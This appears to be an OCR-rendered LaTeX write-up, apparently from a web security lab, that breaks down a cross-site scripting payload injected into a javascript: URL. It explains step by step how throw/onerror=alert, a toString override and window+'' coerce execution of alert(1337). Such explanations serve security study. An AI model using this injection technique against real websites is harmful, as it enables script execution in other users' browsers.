 \documentclass{article}
\begin{document}
\begin{itemize}
\textbf{Result after injection:}
\begin{lstlisting}[frame=single]
body:'/post?postId=4&'},[PAYLOAD CONTINUES...]
\end{lstlisting}

\textbf{2. Function Definition \& Override}
\begin{lstlisting}[frame=single]
x=x=>{throw/**/onerror=alert,1337},toString=x,
\end{lstlisting}
\begin{itemize}
    \item \texttt{x=x=>\{...\}} - Creates arrow function assigned to x
    \item \texttt{throw/**/onerror=alert,1337} - Key execution trick
    \item \texttt{toString=x} - Overrides toString method with malicious function\\
    Now anyObject.toString() will call our function instead of the native one
\end{itemize}

\textbf{3. Trigger Execution}
\begin{lstlisting}[frame=single]
window+'',
\end{lstlisting}
\begin{itemize}
    \item \texttt{window+''} - Forces string conversion of window object
    \item Triggers \texttt{window.toString()} calling malicious function
    \item Result: \texttt{alert(1337)} executes
\end{itemize}

\textbf{4. Clean Up Syntax}
\begin{lstlisting}[frame=single]
,{x:'
\end{lstlisting}
\begin{itemize}
    \item \texttt{\{x:'} - Starts new object to fix syntax
    \item Keeps JavaScript valid after injection
\end{itemize}

\subsection*{Complete Execution Flow}

\textbf{After Injection:}
\begin{lstlisting}[frame=single]
javascript:fetch('/analytics', {
    method:'post', 
    body:'/post?postId=4&'},x=x=>{throw/**/onerror=alert,1337},
    toString=x,window+'',{x:''
}).finally(_ => window.location = '/')
\end{lstlisting}


\end{itemize}
\end{document}
